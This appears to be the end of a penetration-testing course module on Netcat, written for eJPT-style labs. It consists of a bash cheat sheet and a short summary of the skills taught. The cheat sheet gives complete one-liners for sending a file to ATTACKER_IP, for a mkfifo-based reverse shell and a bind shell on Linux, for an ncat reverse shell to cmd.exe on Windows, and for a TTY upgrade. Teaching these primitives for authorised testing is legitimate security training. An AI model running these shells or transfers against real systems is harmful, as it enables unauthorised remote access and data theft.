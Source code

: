 ```bash
# File transfer
# Receiver:
nc -lvnp 9001 > out.bin
# Sender:
nc -nv ATTACKER_IP 9001 < file.bin

# Reverse shell (prefer ncat if available)
# Attacker:
nc -lvnp 4444
# Victim (Linux, no -e):
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -nv ATTACKER_IP 4444 > /tmp/f

# Bind shell (Linux, no -e)
# Victim:
rm -f /tmp/f; mkfifo /tmp/f; nc -lvnp 4444 < /tmp/f | /bin/sh -i 2>&1 > /tmp/f
# Attacker:
nc -nv VICTIM_IP 4444

# Windows with ncat
"C:\Program Files (x86)\Nmap\ncat.exe" -nv ATTACKER_IP 4444 -e cmd.exe

# TTY upgrade
python3 -c 'import pty; pty.spawn("/bin/bash")'; export TERM=xterm
```

## Summary
In this Netcat fundamentals module (in the Bind & Reverse Shells track), you learn to use Netcat/ncat to:
- Connect/listen on TCP/UDP, grab banners, and do quick scans.
- Transfer files and directories over raw TCP.
- Establish bind and reverse shells, including reliable fallbacks when -e is unavailable.
- Stabilize shells and optionally add TLS with ncat.
These building blocks are essential for eJPT labs and real assessments, especially when you need lightweight, dependable primitives for connectivity, data movement, and interactive access.